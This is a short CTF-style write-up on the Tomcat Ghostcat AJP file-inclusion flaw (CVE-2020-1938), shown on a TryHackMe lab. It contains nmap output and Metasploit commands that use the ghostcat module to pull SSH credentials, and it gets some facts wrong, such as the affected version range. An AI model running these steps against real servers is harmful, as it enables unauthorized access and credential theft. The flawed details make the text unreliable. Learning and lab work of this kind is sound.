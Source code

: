#  HI ALL
## IN MY ARTICALE FOR THE FIRST 48H FROM THE HACKING NEWS B'DARIJA EVENT 



> ###  in this small article/write up i wanna talk about tomcat CVE-2020-1938 her impact and how to exploit them whit an example of a tryhackme room (tomghost) and why this vulnerability exist and how to patched him

1.  what is cve
* after hacking or knowing what is the first cve we need to understand what is a **CVE**

* so a ***CVE*** is a short for (Commonn Vulnerabilities and Exposures) , and is a list of publicly disclosed computer security flaws and any cve has a id like **CVE-XXXX-XXXX**
* How many CVEs are there?
good question, the total number of cve now is 191637

2 - now go back to our main subject the tomcat CVE-2020-1938
> 2.1 explain
*  The Apache Ghostcat vulnerability is an LFI (Local File Inclusion) vulnerability Ghost Cat is a vulnerability that affects Apache Tomcat. It currently affects versions before 9.0.3, It is caused by an inseucre configuration of the AJP protocol in the default installation of Tomcat, leading to attackers being able to cause information disclosure, and potentially remote code execution.
-what is AJP protocole
AJP stands for Apache Jserv Protocol, and it is used as an optimized version of the HTTP AJP protocol is used for communication between Tomcat and Apache, the software modules used on Apache
> 2.2 What Ghostcat vulnerability can do what is here impact :
- As we have discussed till now that Ghostcat is a file inclusion vulnerability and It’s not a Remote Code Execution (RCE) by default. But some circumstances made it RCE.
-will allow an attacker to read any resources that exist on the Tomcat server 
>2.3 and now is the time to learn how to exloit this vulnerability 
* there is a lot of exploits for this cve but now we will use **metasploit** and the tryhackme room of tomghost
* so let's do nmap scan first
```
nmap -sC -sV 10.10.10.10
Nmap scan report for 10.10.16.253
Host is up, received user-set (0.15s latency).
Scanned at 2022-03-13 15:15:29 IST for 32s
Not shown: 996 closed ports
Reason: 996 conn-refused
PORT     STATE SERVICE    REASON  VERSION
22/tcp   open  ssh        syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f3:c8:9f:0b:6a:c5:fe:95:54:0b:e9:e3:ba:93:db:7c (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDQvC8xe2qKLoPG3vaJagEW2eW4juBu9nJvn53nRjyw7y/0GEWIxE1KqcPXZiL+RKfkKA7RJNTXN2W9kCG8i6JdVWs2x9wD28UtwYxcyo6M9dQ7i2mXlJpTHtSncOoufSA45eqWT4GY+iEaBekWhnxWM+TrFOMNS5bpmUXrjuBR2JtN9a9cqHQ2zGdSlN+jLYi2Z5C7IVqxYb9yw5RBV5+bX7J4dvHNIs3otGDeGJ8oXVhd+aELUN8/C2p5bVqpGk04KI2gGEyU611v3eOzoP6obem9vsk7Kkgsw7eRNt1+CBrwWldPr8hy6nhA6Oi5qmJgK1x+fCmsfLSH3sz1z4Ln
|   256 dd:1a:09:f5:99:63:a3:43:0d:2d:90:d8:e3:e1:1f:b9 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBOscw5angd6i9vsr7MfCAugRPvtx/aLjNzjAvoFEkwKeO53N01Dn17eJxrbIWEj33sp8nzx1Lillg/XM+Lk69CQ=
|   256 48:d1:30:1b:38:6c:c6:53:ea:30:81:80:5d:0c:f1:05 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGqgzoXzgz5QIhEWm3+Mysrwk89YW2cd2Nmad+PrE4jw
53/tcp   open  tcpwrapped syn-ack
8009/tcp open  ajp13      syn-ack Apache Jserv (Protocol v1.3)
| ajp-methods: 
|_  Supported methods: GET HEAD POST OPTIONS
8080/tcp open  http       syn-ack Apache Tomcat 9.0.30
|_http-favicon: Apache Tomcat
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.30
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/
```
*  after small recon we found  Apache Tomcat 9.0.30
*  so let's use metasploit and run our exploit :
  ```
msfconsole
msf6 > search apache tomcat 9
0 auxiliary/admin:http/tomcat_ghostcat
use 0
msf > show options
msf>set rhost (ip)
msf>run

  ```
after running the exploit we get ssh credantials so the exploit is working and the machine is vulnerable
> 2.4 patching the vulnerability
* the easiest way is updating apatche tompcat 
